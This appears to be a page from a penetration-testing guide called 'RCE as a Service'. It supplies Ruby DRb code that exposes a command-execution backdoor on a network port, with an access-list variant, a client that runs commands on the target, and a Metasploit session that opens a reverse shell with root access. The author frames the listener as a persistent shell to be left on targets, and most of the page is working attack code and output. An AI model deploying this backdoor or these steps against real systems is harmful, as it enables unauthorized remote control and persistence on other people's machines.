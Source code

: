 # RCE as a Service
DRb allows Ruby programs to communicate with each other on the same machine or over a network. DRb uses remote method invocation (RMI) to pass commands and data between processes.

## RCE Service 
```ruby
#!/usr/bin/env ruby
require 'drb'

class RShell
   def exec(cmd)
     `#{cmd}`
   end
end

DRb.start_service("druby://0.0.0.0:8080", RShell.new)
DRb.thread.join
```
Note: It works on all OS platforms 

The `drb` lib supports ACL to prevent/allow particular IP addresses. ex.

```ruby
#!/usr/bin/env ruby
require 'drb'

class RShell
   def exec(cmd)
     `#{cmd}`
   end
end

# Access List
acl = ACL.new(%w{deny all
                allow localhost
                allow 192.168.1.*})
DRb.install_acl(acl)
DRb.start_service("druby://0.0.0.0:8080", RShell.new)
DRb.thread.join
```


## Client 

```ruby
rshell = DRbObject.new_with_uri("druby://192.168.0.13:8080")
puts rshell.exec "id"
```

Or you can use metasploit module to get an elegant shell! 

```bash
msf > use exploit/linux/misc/drb_remote_codeexec 
msf exploit(drb_remote_codeexec) > set URI druby://192.168.0.13:8080
uri => druby://192.168.0.13:8080
msf exploit(drb_remote_codeexec) > exploit 

[*] Started reverse double handler
[*] trying to exploit instance_eval
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo UAR3ld0Uqnc03yNy;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "UAR3ld0Uqnc03yNy\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 2 opened (192.168.0.18:4444 -> 192.168.0.13:57811) at 2015-12-24 01:11:30 +0300

pwd
/root
id
uid=0(root) gid=0(root) groups=0(root)
```
As you can see, even you loose the session you can connect again and again; it's a service, remember? 


Note: For using metasploit module *only*, you don't need even the RShell class. You just need the following on the target side.

```ruby
#!/usr/bin/env ruby
require 'drb'
DRb.start_service("druby://0.0.0.0:8080", []).thread.join
```

I recommend to use the first code in case metasploit is not available.

Read more [technical details](http://blog.recurity-labs.com/archives/2011/05/12/druby_for_penetration_testers/) about the metasploit module "drb_remote_codeexe"
